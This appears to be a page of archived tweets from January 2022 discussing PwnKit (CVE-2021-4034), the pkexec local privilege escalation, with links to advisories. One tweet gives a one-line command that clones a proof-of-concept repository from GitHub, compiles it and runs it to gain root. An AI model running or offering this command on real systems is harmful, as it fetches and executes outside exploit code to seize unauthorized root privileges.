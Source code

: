 
# RabbitPro
**https://twitter.com/RabbitPro/status/1486274848737443840 _at 2022-01-26 09:48:32_**
<blockquote>
PwnKit vulnerability and exploitation is just pure gold! 

CVE-2021-4034: LPE in pkexec

https://t.co/9YdT41TWP9
</blockquote>

* https://seclists.org/oss-sec/2022/q1/80

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# HashSven
**https://twitter.com/HashSven/status/1486273352369156096 _at 2022-01-26 09:42:35_**
<blockquote>
Privilege escalation in one command!

 id &amp;&amp; git clone https://t.co/2pDVYTiQWD &amp;&amp; cd CVE-2021-4035 &amp;&amp;  gcc cve-2021-4034-poc.c -o cve &amp;&amp; ./cve &amp;&amp; id

https://t.co/yN3RXPYsrm

#patching #security #cve #root #cybersecurity
</blockquote>

* https://github.com/NHPT/CVE-2021-4035.git
* https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# LostWisdom3
**https://twitter.com/LostWisdom3/status/1486264733305131012 _at 2022-01-26 09:08:20_**
<blockquote>
i have just tested this pkexec privilege escalation exploit (CVE-2021-4034) and it worked, the exploit is too simple and all unpatched linux systems are vulnerable,here is the PoC  https://t.co/cx4R22mCiV
#infosec
</blockquote>
